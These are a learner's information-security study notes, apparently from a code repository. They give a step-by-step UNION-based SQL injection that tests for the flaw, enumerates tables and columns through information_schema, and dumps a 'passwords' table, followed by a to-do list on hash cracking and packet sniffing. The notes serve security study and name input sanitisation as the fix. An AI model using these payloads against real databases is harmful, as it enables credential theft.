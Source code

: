 # info sec notes

## SQL injection
use everything after (including) "a' UNION"
* test if injection is possible
    ```sql
    SELECT ?, ? FROM ? WHERE ? like '%a%' UNION (SELECT 1, 2 FROM dual); -- ';
    ```

* get all tables from database
    ```sql
    SELECT ?, ? FROM ? WHERE ? like '%a%' UNION (SELECT table_name, table_schema FROM information_schema.tables); -- ';
    ```
* get column names from specific table password, use 2 as placeholde to fill in coumn to union correctly
    ```sql
    SELECT ?, ? FROM ? WHERE ? like '%a%' UNION (SELECT column_name, 2 FROM information_schema.columns WHERE table_name = 'passwords'); -- ';
    ```

* get passwords from password table
    ```sql
    SELECT ?, ? FROM ? WHERE ? like '%a%' UNION (SELECT password, 2 FROM passwords); -- ';
    ```

* information_schema table holds information of all tables


**solution: sanitize user input**

todo lean second order injection

## password cracking

* use hashcat
* learn md5, sha-256
* learn bruteforce attack, dictionary attack

## networking

* learn package sniffing
* lean package modification

## bash scripting

* learn bash scripting